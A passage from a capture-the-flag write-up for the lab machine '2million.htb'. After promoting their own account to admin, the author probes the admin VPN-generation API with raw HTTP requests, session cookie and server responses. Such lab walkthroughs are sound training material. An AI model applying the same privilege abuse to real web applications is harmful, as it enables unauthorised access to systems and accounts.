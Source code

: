 ```http

{"message":true}
```

Now I changed my account as admin.
I think I can use my current account to generate API key with the following api : `/api/v1/admin/vpn/generate` with POST method.
(`Content-Type` should be added here as well.)

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:22:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: username"}
```

I need `username` parameter at this time.
Let's add it.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 23

{"username": "bokchee"}

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 21:23:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
```